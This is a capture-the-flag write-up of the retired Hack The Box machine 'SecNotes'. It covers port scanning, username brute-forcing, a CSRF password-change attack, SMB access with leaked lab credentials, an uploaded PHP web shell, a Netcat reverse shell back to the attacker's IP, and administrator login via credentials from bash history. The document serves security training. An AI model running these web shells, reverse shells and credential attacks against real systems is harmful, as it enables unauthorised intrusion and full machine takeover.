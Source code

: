 # SecNotes

This is the write-up for the box SecNotes that got retired at the 19th January 2019.
My IP address was 10.10.14.20 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.97    secnotes.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/secnotes.nmap 10.10.10.97
```

```markdown
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Full TCP port scan:
```markdown
nmap -p- 10.10.10.97
```
```markdown
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

Running default scripts and version enumeration on port 8808:
```markdown
nmap -sC -sV -p 8808 10.10.10.97
```
```markdown
PORT     STATE SERVICE VERSION
8808/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page there is a login form and the possibility to sign up:

![Login page](https://kyuu-ji.github.io/htb-write-up/secnotes/secnotes_web-1.png)

When trying out some usernames and passwords it says _"No account found with that username."_ but after creating a user and sending wrong credentials it does not show this message, which means this is a way to enumerate usernames.

Lets send this to any web proxy tool like **Burpsuite** to get the HTTP header and try to brute-force some usernames with **Wfuzz**:
```markdown
wfuzz -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=Pass1234" --hs "No account found with that username." http://10.10.10.97/login.php
```

It finds one username called _tyler_. After logging in with our created user, it shows that name also on the top in a message:

![Logged in as our user](https://kyuu-ji.github.io/htb-write-up/secnotes/secnotes_web-2.png)

The feature _"New Note"_ lets us create a note and when trying to create it with HTML tags, it gets parsed:
```markdown
Title
<h1>test title 1</h1>

Note
<center> test note 1</center>
```

There is no attack path with the _"New Note"_ feature.

The feature _"Change Password"_ sends the password without any token to the server:
```markdown
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
(...)
password=Pass123&confirm_password=Pass1234&submit=submit
```

When changing the **POST** parameter to **GET**, it looks like this and still works:
```markdown
GET /change_pass.php?password=Pass1243&confirm_password=Pass1234&submit=submit
```

The feature _"Contact Us"_ allows us to input any message text and allegedly sends it to _tyler_:

![Contact form](https://kyuu-ji.github.io/htb-write-up/secnotes/secnotes_web-3.png)

Lets start a listener on any port and send a link with my IP, to see if he follows links:
```markdown
Message:
http://10.10.14.20:9001
```

After some seconds the listener on port 9001 gets a connection back and confirms, that he follows links.

In summary this challenge looks like some sort of **Cross-Site-Scripting (XSS)** or **Cross-Site-Request-Forgery (CSRF)** task.

### Cross-Site-Request-Forgery Attack

In combination of sending a link to _tyler_ with a request to change the password, it would be possible that he changes his password to something we control.

Lets send _tyler_ a link of the _"Change Password"_ feature:
```markdown
Message:
http://10.10.10.97/change_pass.php?password=Pass123&confirm_password=Pass123&submit=submit
```

After its reviewed, the password of _tyler_ changes to _"Pass123"_ and login as him works:

![Homepage of tyler](https://kyuu-ji.github.io/htb-write-up/secnotes/secnotes_web-4.png)

One of the notes look like an SMB path and credentials:
```markdown
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

## Checking SMB (Port 445)

With the gained credentials, it is possible to enumerate the SMB shares with **SMBmap**:
```markdown
smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97
```
```markdown
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             READ ONLY       Remote IPC
new-site         READ, WRITE
```

There are Read-Write permissions on the _new-site_ share.
```markdown
smbclient -U tyler%92g!mA8BGjOirkL%OG*& \\\\10.10.10.97\\new-site
```

There are only two files called _iisstart.html_ and _isstart.png_ which are default IIS files.

## Checking HTTP (Port 8808)

On the web page on port 8808 it shows the default IIS site which were found in the SMB share.
This means that any uploaded file on the SMB share will also be on this web service and thus we have control over the web service.

Creating a **PHP** shell:
```markdown
<?php system($_REQUEST['cmd']) ?>
```

Uploading it to the SMB share:
```markdown
smb: \> put shell.php
```

Accessing it and executing `whoami`:
```markdown
http://10.10.10.97:8808/shell.php?cmd=whoami
```

The output is _secnotes\tyler_ and proofs successful code execution.
Lets upload **Netcat for Windows** and start a reverse shell connection:
```markdown
smb: \> put nc64.exe
```

Start revere shell with **Netcat**:
```markdown
http://10.10.10.97:8808/shell.php?cmd=nc64.exe 10.10.14.20 9001 -e powershell
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell session as the user _tyler_.

## Privilege Escalation

In the home directory of _tyler_ in the _Desktop_ folder is a file called _bash.lnk_ which is a link file that links to _"C:\Windows\System32\bash.exe"_.
So on this Windows box is a _bash_ shell that can be used by simply executing `bash`.

On this _bash terminal_ it says that we are root, but this doesn't make us Administrator on the box.
The _/root/.bash_history_ file has contents in it and in there is a command with credentials:
```markdown
(...)
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
(...)
```

Lets use the command ourselves from our local client:
```markdown
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```

Now we are connected to the SMB share as Administrator and can obtain any file on the box!

With **psexec** it is also possible to gain a shell with _Administrator_:
```markdown
python3 psexec.py administrator@10.10.10.97
```
